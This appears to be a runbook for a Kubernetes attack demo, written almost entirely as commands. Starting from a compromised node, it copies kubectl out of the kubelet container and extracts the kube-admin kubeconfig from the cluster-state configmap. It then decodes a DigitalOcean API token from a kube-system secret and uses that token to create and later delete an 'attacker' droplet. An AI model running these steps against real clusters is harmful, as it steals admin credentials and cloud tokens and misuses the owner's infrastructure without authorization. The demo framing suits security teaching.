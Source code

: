 List docker containers

```
docker ps
whoami
```

Install kubectl

```
docker cp kubelet:/usr/local/bin/kubectl /usr/bin/
```

Get kubeconfig

```
kubectl --kubeconfig $(docker inspect kubelet --format '{{ range .Mounts }}{{ if eq .Destination "/etc/kubernetes" }}{{ .Source }}{{ end }}{{ end }}')/ssl/kubecfg-kube-node.yaml get configmap -n kube-system full-cluster-state -o json | jq -r .data.\"full-cluster-state\" | jq -r .currentState.certificatesBundle.\"kube-admin\".config | sed -e "/^[[:space:]]*server:/ s_:.*_: \"https://127.0.0.1:6443\"_" > kubeconfig_admin.yaml

export KUBECONFIG=$(pwd)/kubeconfig_admin.yaml
```

Get DigitalOcean API token

Get API token from secret

```
do_token=$(kubectl get secret -n kube-system digitalocean -o jsonpath="{.data.access-token}" | base64 --decode)
```

Install doctl

```
cd ~
wget https://github.com/digitalocean/doctl/releases/download/v1.94.0/doctl-1.94.0-linux-amd64.tar.gz
tar xf ~/doctl-1.94.0-linux-amd64.tar.gz
mv ~/doctl /usr/bin
```

Login

```
doctl auth init -t $do_token
```

Create VM

```
doctl compute droplet create bhofmann-demo-attacker --region fra1 --size s-1vcpu-1gb --ssh-keys	"6c:c1:a4:05:f8:7f:31:ff:42:96:70:4a:92:9f:b8:af" --image ubuntu-20-04-x64 --wait
```

Cleanup

```
doctl compute droplet delete bhofmann-demo-attacker -f
```
